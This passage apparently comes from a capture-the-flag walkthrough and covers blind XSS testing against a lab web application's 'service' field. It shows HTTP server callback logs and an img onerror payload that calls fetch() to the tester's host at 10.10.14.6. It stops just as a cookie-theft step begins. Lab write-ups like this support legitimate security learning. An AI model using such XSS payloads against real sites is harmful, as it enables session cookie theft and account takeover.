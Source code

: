 After a few seconds, I'll see a contact on my Python HTTP server:



    10.10.11.12 - - [12/Jul/2024 22:55:28] code 404, message File not found
    10.10.11.12 - - [12/Jul/2024 22:55:28] "GET /service HTTP/1.1" 404 -



It worked in the `service` field.

#### XSS POC

I'll try upgrading this to an XSS by adding an `onerror` script:



    <img src="http://10.10.14.6/service" onerror=fetch("http://10.10.14.6/xss") />



In Repeater:

![](/img/image-20240712225914109.png)

This time there are two connections:



    10.10.11.12 - - [12/Jul/2024 22:59:28] code 404, message File not found
    10.10.11.12 - - [12/Jul/2024 22:59:28] "GET /service HTTP/1.1" 404 -
    10.10.11.12 - - [12/Jul/2024 22:59:28] code 404, message File not found
    10.10.11.12 - - [12/Jul/2024 22:59:28] "GET /xss HTTP/1.1" 404 -



#### Cookie Theft

The quickest win would be if the cookie set on login isn't set to
`HttpOnly` and I can steal it. I'll try a quick payload to check:
